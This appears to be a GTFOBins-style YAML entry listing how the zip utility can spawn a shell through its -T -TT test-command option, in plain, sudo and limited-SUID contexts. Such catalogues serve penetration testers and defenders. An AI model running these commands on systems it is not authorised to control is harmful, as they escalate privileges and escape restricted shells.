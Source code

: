 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -u)
        zip $TF /etc/hosts -T -TT 'sh #'
        rm $TF
  sudo:
    - code: |
        TF=$(mktemp -u)
        sudo zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
  limited-suid:
    - code: |
        TF=$(mktemp -u)
        ./zip $TF /etc/hosts -T -TT 'sh #'
        sudo rm $TF
---
```

